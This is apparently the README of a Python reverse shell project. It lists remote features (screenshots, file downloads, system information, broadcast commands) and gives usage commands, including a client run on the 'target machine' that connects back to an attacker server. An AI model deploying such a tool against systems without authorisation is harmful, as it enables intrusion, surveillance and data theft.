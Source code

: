 # 🔒 Python Reverse Shell 🖥️

## 📋 Overview
This project provides a robust and feature-rich implementation of a reverse shell written in Python. The implementation includes both client and server components, allowing for remote system access and management.

## ✨ Features
- 🔍 **System Information Gathering**: Collect detailed information about the target system
- 📸 **Screenshot Capture**: Remotely capture screenshots from the target
- 📥 **File Download**: Download files from the target system
- 📢 **Broadcast Commands**: Send commands to multiple connected clients
- 🌐 **Cross-Platform**: Works on Windows, Linux, and macOS

## 🛠️ Requirements
The following Python packages are required:
```
psutil
mss
colorama
```

## 📦 Installation
1. Clone the repository:
```bash
git clone https://github.com/yourusername/reverse-shell.git
cd reverse-shell
```

2. Install the required dependencies:
```bash
pip install -r requirements.txt
```

## 💻 Usage

### Setting up the server
Run the server component on your machine (the attacker):
```bash
python server.py --port 4444
```

### Running the client
Deploy and run the client component on the target machine:
```bash
python client.py --server 192.168.1.100 --port 4444
```

### Available Commands
Once connected, you can use various commands:
- `sysinfo`: Gather system information
- `screenshot`: Capture a screenshot
- `download <filename>`: Download a file from the target
- `broadcast <command>`: Send a command to all connected clients
- `help`: Display available commands

###**Note**
Will fix the issues regarding cross platform errors soon. Peace✌️
  
## ⚠️ Security Warning
**IMPORTANT**: This tool is designed for educational purposes, security testing, and system administration only. Unauthorized access to computer systems is illegal and unethical.

- Only use this tool on systems you own or have explicit permission to test
- Do not use for malicious purposes
- The authors are not responsible for any misuse or damage caused by this program

## 📄 License
This project is licensed under the MIT License - see the LICENSE file for details.
